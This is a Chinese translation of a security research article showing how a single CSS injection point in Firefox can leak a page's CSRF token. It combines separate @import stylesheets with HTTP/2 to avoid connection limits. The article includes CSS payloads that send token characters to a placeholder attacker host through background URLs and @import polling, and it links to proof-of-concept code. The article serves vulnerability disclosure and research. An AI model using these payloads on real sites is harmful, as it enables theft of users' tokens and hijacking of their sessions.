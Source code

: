 
# 在Firefox浏览器中利用CSS窃取数据


                                阅读量   
                                **825863**
                            
                        |
                        
                                                                                                                                    ![](./img/198723/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者securitum，文章来源：research.securitum.com
                                <br>原文地址：[https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)

译文仅供参考，具体内容表达以及含义原文为准

[![](./img/198723/t01f9530a4b8028e782.png)](./img/198723/t01f9530a4b8028e782.png)



## 0x00 前言

几个月之前，我在Firefox中找到了一个漏洞（[CVE-2019-17016](https://www.mozilla.org/en-US/security/advisories/mfsa2020-01/#CVE-2019-17016)）。在研究过程中，我发现了在Firefox浏览器中利用CSS的一种数据窃取技术，可以通过单个注入点窃取数据，这里我想与大家一起分享相关研究成果。



## 0x01 背景知识

为了演示方便，这里假设我们想窃取`&lt;input&gt;`元素中的CSRF令牌。

```
&lt;input type="hidden" name="csrftoken" value="SOME_VALUE"&gt;
```

我们无法使用脚本（可能是因为CSP），因此想寻找基于样式的注入方法。传统方法是使用属性选择器，如下所示：

```
input[name='csrftoken'][value^='a'] {
  background: url(//ATTACKER-SERVER/leak/a);
}

input[name='csrftoken'][value^='b'] {
  background: url(//ATTACKER-SERVER/leak/b);
}

...

input[name='csrftoken'][value^='z'] {
  background: url(//ATTACKER-SERVER/leak/z);
}
```

如果应用了CSS规则，那么攻击者就能收到HTTP请求，从而获取到令牌的第1个字符。随后，攻击者需要准备另一个样式表，其中包含已窃取的第1个字符，如下所示：

```
input[name='csrftoken'][value^='aa'] {
  background: url(//ATTACKER-SERVER/leak/aa);
}

input[name='csrftoken'][value^='ab'] {
  background: url(//ATTACKER-SERVER/leak/ab);
}

...

input[name='csrftoken'][value^='az'] {
  background: url(//ATTACKER-SERVER/leak/az);
}
```

通常情况下，攻击者需要重新加载`&lt;iframe&gt;`中已加载的页面，以便提供后续样式表。

在2018年，[Pepe Vila](https://twitter.com/cgvwzq)提出了一个非常不错的想法，可以在Chrome浏览器中滥用[CSS递归import](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231)方式，通过单个注入点完成相同任务。在2019年，Nathanial Lattimer（[技巧](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)，但稍微做了点改动。下面我稍微总结一下Lattimer的方法，这种方法与本文的思想比较接近（但我在此次研究过程中并不了解Lattimer之前的成果，因此可能有人会认为我在重复造轮子）。

简而言之，第一次注入用到了一堆`import`：

```
@import url(//ATTACKER-SERVER/polling?len=0);
@import url(//ATTACKER-SERVER/polling?len=1);
@import url(//ATTACKER-SERVER/polling?len=2);
...
```

核心思想如下：

1、在一开始，只有第1个`[@import](https://github.com/import)`会返回样式表，其他语句处于连接阻塞状态。

2、第1个`[@import](https://github.com/import)`返回样式表，泄露令牌的第1个字符。

3、当泄露的第1个令牌到达`ATTACKER-SERVER`，第2个`import`停止阻塞，返回包含第1个字符的样式表，尝试泄露第2个字符。

4、当第2个泄露字符到达`ATTACKER-SERVER`时，第3个`import`停止阻塞……以此类推。

这种技术之所以行之有效，是因为Chrome会采用异步方式处理`import`，因此当任何`import`停止阻塞时，Chrome会立即解析该语句并应用规则。



## 0x02 Firefox及样式表处理

前面提到的方法并不适用于Firefox，与Chrome浏览器相比，Firefox对样式表的处理方式大不相同。这里我以几个案例来说明其中差异。

首先，Firefox会采用同步方式处理样式表。因此，当样式表中有多个`import`时，只有当所有`import`都处理完毕时，Firefox才会应用CSS规则。考虑如下案例：

```
&lt;style&gt;
@import '/polling/0';
@import '/polling/1';
@import '/polling/2';
&lt;/style&gt;
```

假设第1个`[@import](https://github.com/import)`返回CSS规则，将页面背景设置为蓝色，后续的`import`处于阻塞状态（比如永远不会返回任何内容，会挂起HTTP连接）。在Chrome浏览器中，页面会立即变为蓝色，而在Firefox中并不会有任何反应。

我们可以将所有`import`放在独立的`&lt;style&gt;`元素中，从而解决该问题：

```
&lt;style&gt;@import '/polling/0';&lt;/style&gt;
&lt;style&gt;@import '/polling/1';&lt;/style&gt;
&lt;style&gt;@import '/polling/2';&lt;/style&gt;
```

在上面代码中，Firefox会分别处理所有样式表，因此页面会立刻变蓝色，其他`import`会在后台处理。

但这里还有另一个问题，假设我们想窃取包含10个字符的令牌：

```
&lt;style&gt;@import '/polling/0';&lt;/style&gt;
&lt;style&gt;@import '/polling/1';&lt;/style&gt;
&lt;style&gt;@import '/polling/2';&lt;/style&gt;
...
&lt;style&gt;@import '/polling/10';&lt;/style&gt;
```

Firefox会立即将10个`import`加入队列。在处理完第1个`import`后，Firefox会将带有已知字符的另一个请求加入队列。这里的问题在于，该请求会被加到队列末尾。而在默认情况下，浏览器有个限制条件，到同一个服务器只能有6个并发连接。因此，带有已知字符的请求永远不会到达目标服务器，因为已经有到该服务器的6个阻塞连接，最终出现死锁现象。

## 0x03 HTTP/2

6个连接的限制条件由TCP层决定，因此到单个服务器只能有6个TCP连接同时存在。在这种情况下，我认为HTTP/2可能派上用场。HTTP/2有许多优点，比如我们可以通过单个连接发送多个HTTP请求（也就是所谓的多路传输（[multiplexing](https://stackoverflow.com/questions/36517829/what-does-multiplexing-mean-in-http-2)）），从而大大提升性能。

Firefox对单个HTTP/2连接的并发请求数也有限制，但默认情况下限制数为`100`（具体设置参考`about:config`中的`network.http.spdy.default-concurrent`）。如果我们需要更多并发数，可以使用不同的主机名，强制Firefox创建第2个TCP连接。比如，如果我们创建到`https://localhost:3000`的`100`个请求，也创建到`https://127.0.0.1:3000`的`50`个请求，此时Firefox就会创建2个TCP连接。



## 0x04 利用方式

现在一切准备就绪，我们的主要利用场景如下：

1、利用代码基于HTTP/2。

2、通过`/polling/:session/:index`端点可以返回CSS，泄露第`:index`字符。该请求会处于阻塞状态，直到前一个请求成功泄露第`index-1`个字符。`:session`路径参数用来区分多次攻击行为。

3、通过`/leak/:session/:value`端点来泄露整个令牌。这里`:value`为获取到的完整值，而不单单是最后一个字符。

4、为了强制Firefox向同一个服务器发起2个TCP连接，这里用到了两个端点，分别为`https://localhost:3000`及`https://127.0.0.1:3000`。

5、端点`/generate`用来生成示例代码。

我创建了一个[测试平台](https://github.com/securitum/research/blob/master/r2020_firefox-css-data-exfil/testbed.html)，目标是通过这种方式窃取`csrftoken`，大家可通过[此处](https://htmlpreview.github.io/?https://github.com/securitum/research/blob/master/r2020_firefox-css-data-exfil/testbed.html)直接访问该平台。

[![](./img/198723/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c94b940b4ec7ff05.png)

此外，我还在GitHub上托管了[PoC代码](https://github.com/securitum/research/blob/master/r2020_firefox-css-data-exfil/exploit.js)，攻击过程可参考[此处视频](https://research.securitum.com/wp-content/uploads/sites/2/2020/02/firefox-leak.mp4)。

有趣的是，由于我们使用的是HTTP/2，因此攻击过程非常快速，不到3秒就能获取到整个令牌。



## 0x05 总结

在本文中，我演示了如何利用1个注入点，在不想重载页面的情况下，通过CSS窃取数据。这里主要涉及2个要点：

1、将`[@import](https://github.com/import)`规则拆分成多个样式表，后续`import`不会阻塞浏览器对整个样式表的处理。

2、为了绕过TCP并发连接数限制，我们需要通过HTTP/2发起攻击。
